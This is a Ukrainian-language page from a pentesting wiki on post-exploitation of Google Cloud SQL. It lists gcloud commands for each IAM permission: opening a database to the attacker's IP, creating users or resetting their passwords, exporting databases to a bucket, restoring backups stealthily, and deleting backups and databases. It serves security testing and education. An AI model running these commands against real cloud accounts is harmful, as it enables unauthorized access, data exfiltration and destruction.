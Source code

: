 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Для отримання додаткової інформації про Cloud SQL перегляньте:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Щоб підключитися до баз даних, вам **потрібен доступ до порту бази даних** і знати **ім'я користувача** та **пароль**, немає жодних вимог IAM. Отже, простий спосіб отримати доступ, якщо база даних має публічну IP-адресу, - це оновити дозволені мережі та **дозволити вашій власній IP-адресі отримати доступ до неї**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Також можливо використовувати **`--no-backup`** для **порушення резервних копій** бази даних.

Оскільки це вимоги, я не зовсім впевнений, для чого потрібні дозволи **`cloudsql.instances.connect`** та **`cloudsql.instances.login`**. Якщо ви знаєте, надішліть PR!

### `cloudsql.users.list`

Отримати **список усіх користувачів** бази даних:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Ця дозволяє **створити нового користувача всередині** бази даних:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Цей дозвіл дозволяє **оновлювати користувача всередині** бази даних. Наприклад, ви можете змінити його пароль:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Резервні копії можуть містити **стару чутливу інформацію**, тому цікаво їх перевірити.\
**Відновити резервну копію** всередині бази даних:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Щоб зробити це більш приховано, рекомендується створити новий SQL екземпляр і відновити дані там, а не в поточних базах даних.

### `cloudsql.backupRuns.delete`

Ця дозволяє видаляти резервні копії:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Експортуйте базу даних** у Cloud Storage Bucket, щоб ви могли отримати до неї доступ звідти:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Імпортуйте базу даних** (перезапис) з Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Видалити базу даних з екземпляра бази даних:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
